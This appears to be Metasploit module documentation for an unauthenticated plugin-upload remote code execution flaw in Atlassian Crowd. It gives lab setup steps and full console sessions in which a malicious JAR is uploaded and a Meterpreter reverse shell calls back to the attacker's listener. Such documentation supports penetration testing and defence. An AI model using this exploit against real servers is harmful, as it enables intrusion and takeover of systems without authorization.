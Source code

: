 ## Vulnerable Application

Atlassian Crowd 2.1.x prior to 3.0.5, 3.1.x prior to 3.1.6, 3.2.x prior to 3.2.8, 3.3.x prior to 3.3.5, and 3.4.x prior to 3.4.4
had an incorrect installation of the pdkinstall development plugin, which allows unauthenticated remote attackers to upload and install
arbitrary plugins on vulnerable Atlassian Crowd and Atlassian Crowd Data Center installations via a POST request to the
`/<crowd install base>/admin/uploadplugin.action` page.

Successful exploitation results in remote code execution as the user running the Atlassian Crowd server.

To set up a vulnerable Windows 10 installation:
1. Grab a copy of Windows, any version will do but I tested on Windows 10.
1. Grab a copy of the 3.0.3 version of Atlassian Crowd from https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.0.3.zip
1. Grab a copy of the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Extract the Atlassian Crowd zip.
1. Edit the `atlassian-crowd-3.0.3\apache-tomcat\bin\catalina.bat` file and remove all the `-Djava.endorsed.dirs` options.
1. Run `start_crowd.bat`
1. After a few minutes browse to `http://localhost:8095/crowd/` and click the blue `Set Up Crowd` button to do a new install.
1. Use the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.


To set up a vulnerable 3.2.1 JDK 8 Docker image:
1. Run `sudo docker volume create --name crowdVolume`
1. Run `sudo docker run -v crowdVolumeddd:/var/atlassian/application-data/crowd --name="crowd3.2.1" -d -p 8095:8095 atlassian/crowd:3.2.1-jdk8`
1. Wait for install to finish then browse to `http://localhost:8095/`.
1. Click the blue `Set Up Crowd` button to do a new install.
1. If the Docker image crashes at this point, increase the amount of memory allocated towards it. Java requires a fair bit of memory.
1. Use the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.

## Verification Steps

1. Follow the steps in `Vulnerable Application`
1. `use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce`
1. Set `RHOST` to the target IP
1. Set `LHOST` to your local IP
1. `exploit`
1. You should get a shell back as the user running the Atlassian Crowd application.

## Options

## Scenarios

### Atlassian Crowd 3.0.3 on Windows 10 20H2
```
msf6 > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 192.168.224.204
RHOSTS => 192.168.224.204
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 192.168.224.128
LHOST => 192.168.224.128
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.224.204  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Cloud
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.224.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try install an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating its vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 192.168.224.204
[*] Meterpreter session 1 opened (192.168.224.128:4444 -> 192.168.224.204:53871) at 2021-07-30 11:56:38 -0500

meterpreter > getuid
Server username: test
meterpreter > pwd
C:\Users\test\Desktop\atlassian-crowd-3.0.3
meterpreter >
```

### Atlassian Cloud 3.2.1 Linux Docker Image
```
msf6 > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Crowd
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > check

[*] Sending a test request to try installing an invalid plugin to see if the server is vulnerable...
[+] 127.0.0.1:8095 - The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating it's vulnerable!
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try installing an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating it's vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:39316) at 2021-08-02 10:56:47 -0500

meterpreter > sysinfo
Computer    : 3fc6d7283aaa
OS          : Linux 5.8.0-63-generic (amd64)
Meterpreter : java/linux
meterpreter > getuid
Server username: crowd
meterpreter > pwd
/opt/atlassian/crowd
meterpreter > ls
Listing: /opt/atlassian/crowd
=============================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100444/r--r--r--  1254   fil   2018-05-09 05:36:38 -0500  README.txt
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:10 -0500  apache-tomcat
100444/r--r--r--  252    fil   2018-05-09 05:36:38 -0500  build.bat
100444/r--r--r--  650    fil   2018-05-09 05:36:38 -0500  build.properties
100554/r-xr-xr--  204    fil   2018-05-09 05:36:38 -0500  build.sh
100444/r--r--r--  2847   fil   2018-05-09 05:36:38 -0500  build.xml
40554/r-xr-xr--   4096   dir   2018-05-09 06:01:28 -0500  client
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:13 -0500  crowd-openidclient-webapp
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:14 -0500  crowd-openidserver-webapp
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:13 -0500  crowd-webapp
40776/rwxrwxrw-   4096   dir   2021-07-30 17:03:57 -0500  database
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:09 -0500  etc
40554/r-xr-xr--   32768  dir   2021-07-13 01:52:15 -0500  licenses
100444/r--r--r--  407    fil   2018-05-09 05:36:38 -0500  start_crowd.bat
100554/r-xr-xr--  324    fil   2018-05-09 05:36:38 -0500  start_crowd.sh
100444/r--r--r--  98     fil   2018-05-09 05:36:38 -0500  stop_crowd.bat
100554/r-xr-xr--  71     fil   2018-05-09 05:36:38 -0500  stop_crowd.sh

meterpreter >
```